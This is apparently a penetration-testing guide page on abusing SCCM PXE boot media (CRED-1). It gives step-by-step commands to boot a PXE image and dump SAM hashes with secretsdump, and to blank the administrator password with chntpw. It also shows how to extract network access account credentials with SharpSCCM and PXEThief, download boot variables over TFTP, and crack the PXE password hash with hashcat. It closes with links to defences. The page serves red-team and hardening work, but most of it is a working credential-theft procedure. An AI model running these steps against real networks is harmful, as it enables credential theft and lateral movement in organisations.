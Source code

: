 # CRED-1 - PXE Abuse

### Document Reference

* [CRED-1](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-1/cred-1\_description.md)

## Unencrypted Boot Mediums

PXE Boot mediums may be deployed to endpoints wherein the PXE boot image is not encrypted. When this is the case it is trivial to initiate the PXE installation sequence and pillage credentials on the resulting image when installation is complete.&#x20;

Broadly, this means it is trivial to obtain local SAM hashes and SCCM secrets from the installed image.

### **Requirements**

* Unauthenticated network access
* Line of sight to DHCP server (optional, but helps)
* Line of sight to PXE-enabled distribution point

### **Manual** &#x20;

This process can be performed manually by using virtualisation on the attack system (Virtualbox, Vmware etc..). Configuring a VM to network boot&#x20;

<figure><img src="../../../.gitbook/assets/2024-04-13_11-41.png" alt=""><figcaption></figcaption></figure>

Once the initial PXE image is loaded, if the image is not password protected then we can simply proceed without requiring password input.

<figure><img src="../../../.gitbook/assets/2024-04-13_12-06.png" alt=""><figcaption></figcaption></figure>

Proceed until an option for continuing with limited setup appears, then continue with the limited setup process.

<figure><img src="../../../.gitbook/assets/2024-04-13_09-17 (1).png" alt=""><figcaption></figcaption></figure>

When the system is finalised the logon screen for the administrator account will be presented. Gracefully shutdown the VM through the power options menu.&#x20;

{% hint style="warning" %}
Ensure the VM is gracefully shutdown through the windows power options. If the VM is terminated in an ungraceful state you will not have write access to reset the administrator password through a live boot medium.
{% endhint %}

Boot a live distro such as Kali Linux over the top of the newly created VM. Browse to the mounted Windows disk `/Windows/Windows/System32/Config` where the SAM and SYSTEM hive files reside.&#x20;

Then use `impacket-secretsdump` to obtain the SAM hashes from the system.

```
impacket-seretsdump -system SYSTEM -sam SAM LOCAL
```

<figure><img src="../../../.gitbook/assets/2024-04-13_09-47.png" alt=""><figcaption></figcaption></figure>

After this, ideally we will access the VM as the administrative account to identify further credentials. `chntpw` can be used to wipe any local account credentials within the SAM database, we will wipe the local administrator account credentials, save changes and reboot into the installed Windows VM.

```bash
# List details about specific accounts
chntpw -u <user> SAM

# Interactive mode
chntpw -i SAM

# User edit mode and clear passwordb
Option 1
Enter user RID
Option 1 <-- Clear Password

# Save changes and exit
Enter
q
Enter
y
```

<figure><img src="../../../.gitbook/assets/2024-04-13_09-53.png" alt=""><figcaption></figcaption></figure>

After saving changes and rebooting the Windows VM. It should auto login as the native administrator account as there is now no password in place.

{% hint style="info" %}
Sometimes this process seems to fail. If so try again and ensure the account is unlocked then blank the password again. Save the hive and perform a graceful shutdown in Kali.
{% endhint %}

Once logged in as an administrative user, it is advised to use SharpSCCM to identify any local secrets for the NAA account. There is potential for the NAA account to be over-privileged in domain or for its password to be reused within the environment.

<figure><img src="../../../.gitbook/assets/2024-04-13_10-47.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Credential Material obtained for lateral movement

* SAM hashes
* SCCM NAA account credentials
{% endhint %}



### PXETHIEF

PXETHIEF is best utilised from a Windows based system so it can decrypt password values. PXETHIEF helps automate the process of collecting ConfigMgr Collection Variables, Task Sequence variables and NAA account credentials from PXE images.

**Requirements**

* Install npcap: [https://npcap.com/#download](https://npcap.com/#download)
* Install Python3: [https://www.python.org/downloads/windows/](https://www.python.org/downloads/windows/)
* Install TFTP Client (Windows Feature)
* Clone PXEThief repository: [https://github.com/MWR-CyberSec/PXEThief](https://github.com/MWR-CyberSec/PXEThief)

The PowerShell script below will attempt to download and install the above requirements. `npcap` is not able to be installed silently and will require manual intervention to finalise.

```powershell
if (-not ([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)) {
    Write-Warning "Not running as administrator. Please run this script as an administrator." ; break
}

$urls = @{
    Npcap = "https://nmap.org/npcap/dist/npcap-1.79.exe";
    Python = "https://www.python.org/ftp/python/3.12.3/python-3.12.3-amd64.exe";
    PXEThief = "https://codeload.github.com/MWR-CyberSec/PXEThief/zip/refs/heads/main"
}

$installers = @{
    Npcap = "npcap-installer.exe";
    Python = "python-installer.exe";
    PXEThief = "PXEThief-main.zip"
}

$urls.GetEnumerator() | % {IWR -Uri $_.Value -OutFile $installers[$_.Key] -Verbose}
Expand-Archive -Path $installers["PXEThief"] -DestinationPath "." -Force
try {Enable-WindowsOptionalFeature -Online -FeatureName "TFTP-Client" -NoRestart} 
catch {Install-WindowsFeature -Name "TFTP-Client"}

Start-Process -FilePath $installers["Python"] -ArgumentList "/quiet InstallAllUsers=1 PrependPath=1" -Wait -NoNewWindow
Write-Host "Please manually install Npcap using the installer provided if required." -ForegroundColor Yellow
Start-Process -FilePath $installers["Npcap"] -Wait -NoNewWindow
Start-Sleep -Seconds "20"
Set-Location -Path "PXEThief-main"
Start-Process -FilePath "cmd.exe" -ArgumentList '/c py.exe -m pip install -r requirements.txt' -Wait -NoNewWindow
switch ((Read-Host "Create Firewall Exception for Outbound TFTP? y/n").ToLower()) {
    'y' { try {New-NetFirewallRule -DisplayName "Allow Outbound TFTP" -Direction Outbound -Protocol UDP -LocalPort 69 -Action Allow} catch {Write-Host "Failure Creating Firewall Rule" -ForegroundColor "Red"} }
    'n' { continue }
    default { Write-Host "Invalid input, moving on..." -ForegroundColor "Yellow" }
}
Write-Host "Script execution completed. Check the current directory for downloaded files and installation status." -ForegroundColor Green
```

**Execute**

```python
# Directly target MECM Server
py.exe pxethief.py 2 <MECM Server IP>

# Broadcast 
py.exe pxethief.py 1
```

<figure><img src="../../../.gitbook/assets/2024-04-13_15-16.png" alt=""><figcaption></figcaption></figure>

## Encrypted Boot Mediums

SCCM can be configured to set passwords on PXE. When this is the case, a valid password needs to be provided before the boot media is accessible. PXETHIEF can be used to obtain the hashed password value, if the password is weak, we can crack it and proceed with the same steps in the above sections of this document to perform credential extraction.

Download the boot var with TFTP

{% code overflow="wrap" %}
```python
tftp -i 192.168.60.11 GET "\SMSTemp\2024.04.13.14.11.18.0001.{51724F94-5668-41AD-A8B1-703658B6906C}.boot.var" "2024.04.13.14.11.18.0001.{51724F94-5668-41AD-A8B1-703658B6906C}.boot.var"
```
{% endcode %}

Use with option 5 in PXETHIEF to receive the PXE password hash

{% code overflow="wrap" %}
```python
py.exe .\pxethief.py 5 '.\2024.04.13.14.11.18.0001.{51724F94-5668-41AD-A8B1-703658B6906C}.boot.var'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

To crack the hash in hashcat, we need to use Christopher Panayi’s hashcat module, which needs to be compiled into a hashcat build to support SCCM hashes.

hashcat module: [https://github.com/MWR-CyberSec/configmgr-cryptderivekey-hashcat-module](https://github.com/MWR-CyberSec/configmgr-cryptderivekey-hashcat-module)

Otherwise, I have created a fork of hashcat, with this module for hashcat 6.2.6 with precompiled Linux and Windows binaries here: [https://github.com/The-Viper-One/hashcat-6.2.6-SCCM](https://github.com/The-Viper-One/hashcat-6.2.6-SCCM)

{% code overflow="wrap" %}
```
hashcat-2.6.2-SCCM.exe -m 19850 -a 0 $sccm$aes128$0000edec1400000010330000203300000e6600000000000008b5ea1dab29bdd0de62e6506b108b5c <password-file.txt> <rules>
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now that the PXE password has been obtained, the same steps in **Unencrypted Boot Medium section** can be followed for credential extraction.

## Defence

* [PREVENT-3: Harden or disable network access accounts](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/PREVENT/PREVENT-3/prevent-3\_description.md)
* [PREVENT-6: Configure a strong PXE boot password](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/PREVENT/PREVENT-6/prevent-6\_description.md)
* [PREVENT-7: Disable command support in PXE boot configuration](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/PREVENT/PREVENT-7/prevent-7\_description.md)
* [PREVENT-21: Restrict PXE boot to authorized VLANs](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/PREVENT/PREVENT-21/prevent-21\_description.md)
